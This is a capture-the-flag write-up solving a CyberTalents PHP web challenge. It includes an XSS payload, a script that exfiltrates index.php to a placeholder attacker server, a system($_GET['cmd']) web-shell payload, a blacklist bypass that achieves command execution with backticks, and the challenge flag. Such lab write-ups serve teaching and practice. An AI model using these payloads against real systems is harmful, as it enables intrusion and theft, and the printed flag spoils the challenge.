




# Solve string-highlighter
#### https://cybertalents.com/challenges/web/string-highlighter

### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
No output

### Analyze the source code 
We found JS function
```js
   <script type="text/javascript">
    	$('.sub').on('click',function(){
    		var color = $('select').val();
    		var txt = $('textarea').val();
    		var stringToParse = color + ':' + txt;
    		$.post('',{stp:stringToParse},function(data){
    			$('.preview').html(data);
    		});
    	});
    </script>
```
This JavaScript code uses jQuery to handle a form submission and send data to the server via an AJAX POST request.

### Analyze with Burp
#### request
```http
POST / HTTP/1.1
Host: wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 14
Origin: http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0

stp=red%3Atest
```
*Note: the request is crafted as `red:test` color:string.*
#### Response 
```http
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Tue, 04 Feb 2025 17:08:06 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 34

<div style="color:red;">
    test
</div>
```
*Note: that the input reflect in the div tag.*

### XSS
```js
<script>alert('m_1337')</script>
```


#### Read the source code 
##### Confirm the source code is `index.php`
```bash
curl -I  http://wcamxwl32pue3e6mxj6zqr8t6v9yj6zqdkgxu639-web.cybertalentslabs.com/index.php
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Wed, 05 Feb 2025 14:35:03 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
```
#### Try to read the sorce code
```js
black:<script><?php show_source(./index.php);?></script>
```
Response : Code contains php code , php codes is forbidden

```js
<script>
    fetch('/index.php')
      .then(response => response.text())
      .then(data => {
        fetch('https://<your-server>', {
          method: 'POST',
          mode: 'no-cors',
          body: btoa(data) 
        });
      });
  </script>
```
it doesn't work

#### RCE
```js
<script>
  fetch('/path-to-vulnerable-endpoint', {
    method: 'POST',
    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
    body: 'stp=red:<?php system($_GET["cmd"]); ?>'
  });</script>
```
Response : Code contains php code , php codes is forbidden

### Bypass php code restriction 
#### PHP Short tag (`<?=`)
```php
<?= file_get_contents("index.php"); ?>
```
Response : Code contains php code , php codes is forbidden
```php
echo('m_1337');
```

So most likely the restrection is black list of php functions.
#### Try different functions to bypass the black list
```php
<?= print_r(file("index.php")); ?>
<?= highlight_file("index.php"); ?>
<?= var_dump(include("index.php")); ?>
<?= var_dump(include("index.php")); ?>
<?= highlight_string(file_get_contents("index.php")); ?>
<?= $fp = fopen("index.php", "r"); echo fread($fp, filesize("index.php")); fclose($fp); ?>
<?= while (!feof($fp)) { echo fgets($fp); } ?>
<?= readfile("index.php"); ?>
```
ALL Response : Code contains php code , php codes is forbidden
#### RCE via echo with `` (backticks) bypass
```php
echo `whoami`;
```

```php
echo `ls`;
```
flag_h@cked_pWn
index.php

We can Read both the flag and the source code 
*The source code is in [index.php](index.php)*
flag : kshd125fddw

#### Resources:
[HackTricks PHP Tricks](https://hacktricks.boitatech.com.br/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)

>Find More on ==> github.com/MedhatHassan 
